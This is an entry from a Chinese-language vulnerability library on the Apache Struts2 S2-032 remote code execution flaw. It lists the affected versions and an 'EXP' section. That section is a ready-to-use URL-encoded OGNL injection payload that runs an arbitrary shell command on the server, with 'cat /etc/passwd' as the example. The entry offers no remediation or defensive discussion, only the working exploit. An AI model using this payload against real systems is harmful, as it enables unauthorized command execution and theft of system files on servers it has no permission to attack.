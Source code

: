 ```yaml
---
title: 'Struts2 S2-032远程代码执行'
date: Mon, 24 Aug 2020 13:20:51 +0000
draft: false
tags: ['RCE', 'struts2', '白阁-漏洞库', '远程命令执行']
---
```


### 影响范围

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

### EXP

```
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat /etc/passwd
```



![](Struts2%20S2-032%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20200824211724.png)